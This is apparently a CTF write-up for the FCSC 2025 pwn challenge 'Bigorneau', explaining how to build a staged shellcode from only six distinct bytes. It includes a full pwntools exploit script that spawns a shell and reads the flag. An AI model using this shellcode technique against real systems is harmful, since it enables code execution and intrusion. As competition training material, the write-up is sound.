 +++
title = "FCSC 2025 | Bigorneau"
+++
# [Pwn] Bigorneau |  FCSC 2025 

* [1. Checksec](#checksecs)
* [2. Writeup](#writeup)
* [3. Full exploit](#full-exploit)

## Checksecs
```
[*] '/home/botman/Documents/challenges/FCSC/bigorneau/bigorneau'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

## TL;DR
Constraints: 6 different bytes

Solution:
- Simple read shellcode into the stack
- Use only push/pop instructions to fill `rsi`/`rdx`
- Fill `rdx` using bytes already present in the shellcode

## Writeup

This challenge was fairly easy. The only constraint for our shellcode was to use **only 6 different bytes**. Instead of using a classical `execve` shellcode, I developed a simple shellcode with a `read` syscall that allowed me to write onto the stack and then execute the real `execve` shellcode.

I started with a "normal" shellcode, which looked like this:
```asm
push rsp
mov rsi, rsp
mov rdx, shellcode_len
syscall
```

> <span style="color: #82aaff;">**ⓘ NOTES**</span>
>
> As you can see, I only set `rsi` and `rdx`, as `rax` was already `0x0` ([read syscall](https://x64.syscall.sh/)) thanks to the preface added by `bigorneau.py`.

Since the objective was to use as few different bytes as possible, I removed all the `mov` instructions (which have large opcodes) and replaced them with `push`/`pop` instructions:
```asm
push rsp
push rsp
pop rsi
push shellcode_len
pop rdx
syscall
```

<div style="page-break-after: always;"></div>

At this point, it was almost done. The only problem was the `shellcode_len` value. I replaced it with values already present in the shellcode to avoid introducing new bytes, obtaining:
```asm
push rsp
push rsp
pop rsi
push 0x0f050f05
pop rdx
syscall
```

> <span style="color: #82aaff;">**ⓘ NOTES**</span>
>
> If I had pushed `0x100` onto the stack, the shellcode would have looked like `0x54545e68000100005a0f05`, introducing two extra bytes `0x0` and `0x1`. By reusing the existing `0xf` and `0x5` bytes, I wrote `push 0x0f050f05`, resulting in the shellcode `0x54545e68050f050f5a0f05`.

Finally, I wrote a small script to send the first-stage shellcode followed by the real `execve` shellcode with a little padding to reach `rip` and boom, pwned:

## Full exploit
```python
from pwn import *

CHALL = "bigorneau.py"

def exploit(io, elf):
    context.update(arch='x86_64')
    shellcode = '''
    push rsp
    push rsp
    pop rsi
    push 0x0f050f05
    pop rdx
    syscall
    '''
    shellcode = bytes(asm(shellcode))

    io.info('shellcode: ' + hex(int.from_bytes(shellcode)))
    io.info('set: %s : %i' % (', '.join([hex(i) for i in set(shellcode)]), len(set(shellcode))))

    io.sendlineafter(b':\n', hex(int.from_bytes(shellcode))[2:].encode())
    io.sendline(b'A'*104 + bytes(asm(shellcraft.sh())))
    io.sendline(b'cat flag.txt')
    flag = io.recvline().decode()
    return flag
```

[download here](/exploits/bigorneau.py)

**Written by *0xB0tm4n***
